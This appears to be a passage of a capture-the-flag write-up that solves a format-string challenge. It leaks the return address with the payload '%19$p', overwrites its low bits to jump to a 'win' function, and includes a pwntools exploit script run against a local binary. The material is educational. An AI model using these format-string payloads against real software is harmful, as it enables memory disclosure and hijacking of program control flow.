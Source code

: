 - Now, to identify the index, try to find a value `idx` such that `x/gx $rsp +  (8 * idx)` prints the expected value. Check out the linked format string video in the end to know why.
- For our scenario, `idx` is `13`. This is index from `rsp`, but for printf, this index depends on calling convention.
- For amd64, calling convention is that, first 6 parameters are stored in registers and rest of the params are stored on stack.
- So, the actual index for the return address is `13 + 6 = 19`

### Payload

1. Our first payload will be `%19$p` (19 is the index for return address) in response to `Enter your name:`. It will print the return address
1. Replace the last 3 characters in the address with `36a` because address offset for `win` function is `000000000000136a`
1. Send the new address as a response to `enter the address to jump to, ex => 0x12345`
1. Capture the flag

### Python script to do the same

```python
from pwn import *

binary = './vuln'
elf = ELF(binary)

context.binary = binary

p = process(binary)

prompt = p.readuntil(b'name:')
print(prompt.decode())
payload = b'%19$p'
print("Payload:",payload)
p.sendline(payload)

addr_str = p.readline().decode().strip()
addr = list(addr_str)
# print("response addr:",addr, addr_str)

win_offset = hex(elf.symbols['win'])

for i in range(-3, 0):
    addr[i] = win_offset[i]

prompt = p.readuntil(b'0x12345: ')
print(prompt.decode())
payload = ''.join(addr).encode()
print("Payload:",payload)
p.sendline(payload)

remaining_text = p.recv()
print(remaining_text.decode())

```
